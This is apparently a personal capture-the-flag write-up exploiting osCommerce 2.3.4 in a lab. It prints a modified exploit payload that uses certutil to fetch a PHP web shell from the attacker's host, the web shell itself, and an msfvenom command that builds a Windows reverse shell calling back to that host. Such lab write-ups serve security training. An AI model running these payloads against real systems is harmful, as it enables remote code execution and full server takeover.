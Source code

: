 - used this writeup now https://cd6629.gitbook.io/pentest-research/windows-ctfs/blueprint-w

- used this exploit https://www.exploit-db.com/exploits/44374

- Made following chanages in the exploit 
```
base_url = "http://10.10.220.55:8080/oscommerce-2.3.4/catalog/"
target_url = "http://10.10.220.55:8080/oscommerce-2.3.4/catalog/install/install.php?step=4"


payload = '\');'
payload += '$var = shell_exec("cmd.exe /C certutil -urlcache -split -f http://10.17.24.189:8000/shell.php shell.php & nslookup test 10.17.24.189");'    # this is where you enter you PHP payload
payload += 'echo $var;'
payload += '/*'
```

- started my own python webserver 

- created a shell.php file with the contents
```
   │   ~/Desktop/THM/blueprint ▓▒░ cat shell.php                                                              
<?php echo shell_exec($_GET["cmd"]); ?>
```

- now running the exploit
```
sudo python3 44374.py                                                            ░▒▓ ✔ │ 36s   │ 23:05:49   
[+] Successfully launched the exploit. Open the following URL to execute your code

http://10.10.220.55:8080/oscommerce-2.3.4/catalog/install/includes/configure.php
```

- now we have to go to http://10.10.220.55:8080/oscommerce-2.3.4/catalog/install/includes select the shell.php file and change the url to http://10.10.220.55:8080/oscommerce-2.3.4/catalog/install/includes/shell.php?cmd=whoami

we get `nt authority\system` this means the exploit has worked success fully


- now created a windows reverse shell exe file using
https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#windows-stageless-reverse-tcp


and ran this command 

```
[msf](Jobs:0 Agents:0) >> msfvenom -p windows/shell_reverse_tcp LHOST=10.17.24.189 LPORT=4444 -f exe > reverse.exe
```


- now followed the above steps again but now install of `shell.php` i will download the `reverse.exe`

`http://10.17.24.189:8000/reverse.exe reverse.exe`
